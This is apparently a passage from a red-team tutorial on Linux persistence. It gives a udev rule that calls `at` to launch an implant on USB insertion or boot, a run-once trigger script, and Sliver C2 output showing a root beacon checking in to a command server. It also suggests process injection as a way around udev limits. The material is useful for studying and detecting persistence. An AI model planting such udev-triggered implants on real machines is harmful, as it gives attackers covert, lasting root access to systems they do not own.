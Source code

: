 - Process injection. To inject the implant shellcode in another process could be a more than a feasible option to bypass`udev` restrictions. This option is out of the scope of this article and is left as an exercise for the reader.

#### Using `at` to bypass restrictions
The good thing about `at` is that is a binary from the official repositories, and it's installed by default in some distributions . This turns it into a `Living Of The Land Binary` (called specifically `GTFOBin` for `Unix` binaries), which will help us going under the radar in some cases.

So let's generate the rule (`/etc/udev/rules.d/ttp.rules`) calling `at`, that will schedule the implant to execute at the same time:
```bash
SUBSYSTEMS=="usb", RUN+="/usr/bin/at -M -f /opt/scripts/trigger.sh now"
```

{{< admonition note "Note" true>}}
In the case of Ubuntu Server 22.04 LTS, it is necessary to install `at` from the official repositories if it has not been installed previously.
{{< /admonition >}}

The script pointed by `at` located at `/opt/scripts/trigger.sh`:
```bash
#!/bin/bash

# This workaround ensures that the execution is done only once.
# Not very fancy, but quick.

FILE=/home/test/file_udev$(($(date "+%Y%m%d%H")))
if [ ! -f $FILE ]; then
	touch $FILE
	/home/test/implant
fi
```

Let's plug in a USB and... we receive the connection on our `C2`! (if we boot the machine, we get the same result without the need of plugging in a USB):
```bash
[*] Beacon 52e736e5 BROKEN_THERAPIST - 10.0.2.6:34500 (test) - linux/amd64 - Mon, 22 Jan 2024 21:03:08 CET

sliver > use 52e736e5-0027-4a8c-8d40-b151759c163d

[*] Active beacon BROKEN_THERAPIST (52e736e5-0027-4a8c-8d40-b151759c163d)

sliver (BROKEN_THERAPIST) > info

         Beacon ID: 52e736e5-0027-4a8c-8d40-b151759c163d
              Name: BROKEN_THERAPIST
          Hostname: test
              UUID: 6ca0c150-15de-41a7-b798-7640129e1b93
          Username: root
               UID: 0
               GID: 0
               PID: 1697
                OS: linux
           Version: Linux test 5.15.0-91-generic
            Locale: 
              Arch: amd64
         Active C2: mtls://10.0.2.15:8888
    Remote Address: 10.0.2.6:34500
         Proxy URL: 
          Interval: 5s
            Jitter: 3s
     First Contact: Mon Jan 22 21:03:08 CET 2024 (8s ago)
      Last Checkin: Mon Jan 22 21:03:09 CET 2024 (7s ago)
      Next Checkin: Mon Jan 22 21:03:15 CET 2024 (1s ago)
```